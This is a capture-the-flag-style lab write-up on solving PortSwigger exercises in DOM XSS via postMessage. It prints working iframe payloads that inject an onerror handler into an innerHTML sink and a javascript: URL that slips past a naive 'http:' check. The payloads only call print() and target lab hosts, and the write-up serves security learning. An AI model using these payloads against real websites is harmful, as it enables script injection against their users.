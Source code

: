 # [DOM Vuln] Lab: DOM XSS using web messages (1)

---

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM%20XSS%20using%20web%20messages%20(1)%2046b9775cd11b41018147c55dad8c4c14/Untitled.png)

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM%20XSS%20using%20web%20messages%20(1)%2046b9775cd11b41018147c55dad8c4c14/Untitled%201.png)

so if we craft a web message as such: 

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM%20XSS%20using%20web%20messages%20(1)%2046b9775cd11b41018147c55dad8c4c14/Untitled%202.png)

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM%20XSS%20using%20web%20messages%20(1)%2046b9775cd11b41018147c55dad8c4c14/Untitled%203.png)

now lets cause a error within our message that we’re send and since the application is using inner.html we cannot use <script> and other tags but we can cause and error with an event handler and have it pop up a print function as such: 

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM%20XSS%20using%20web%20messages%20(1)%2046b9775cd11b41018147c55dad8c4c14/Untitled%204.png)

```jsx
<style>
        body, html {
            height: 100%;
            margin: 0;
            padding: 0;
            overflow: hidden;
        }
        iframe {
            width: 100%;
            height: 100%;
            border: none;
        }
    </style>

<iframe src="https://0aae001f041662b8829e107300a90010.web-security-academy.net/" onload="this.contentWindow.postMessage('<audio src/onerror=print()>!','https://0aae001f041662b8829e107300a90010.web-security-academy.net/')">
```

the style is not required I used it to make it the size of the entire screen/webpage… 

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM%20XSS%20using%20web%20messages%20(1)%2046b9775cd11b41018147c55dad8c4c14/Untitled%205.png)

and there we have it lab solved. 

some important takes aways from this is the source was within the post message and the sink was within the actual innerHTML tag due to **its inability to determine whether or not the injected code could be malicious**. 

The `innerHTML` property sets or returns the HTML content (inner HTML) of an element.

we need to use a Iframe 

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM%20XSS%20using%20web%20messages%20(1)%2046b9775cd11b41018147c55dad8c4c14/Untitled%206.png)

since we have no way to communicate with the parent window and the child window that we’re opening. 

```jsx
<iframe id="myIframe" src="https://0ad400190369e70c80794900007e00cf.web-security-academy.net/"></iframe>

<script>
var iframe = document.getElementById('myIframe');

iframe.onload = function() {
  // Send a message to the iframe's content window
  iframe.contentWindow.postMessage("javascript:print(1)//http:", "https://0ad400190369e70c80794900007e00cf.web-security-academy.net/");
};
</script>
```

this is because the parser is only checking for the occurrence of HTTP: and doesn't check where it occurs. so by using the // to escape the white space we can have href run our javascript code by using the javascript protocol. 

![Untitled](%5BDOM%20Vuln%5D%20Lab%20DOM%20XSS%20using%20web%20messages%20(1)%2046b9775cd11b41018147c55dad8c4c14/Untitled%207.png)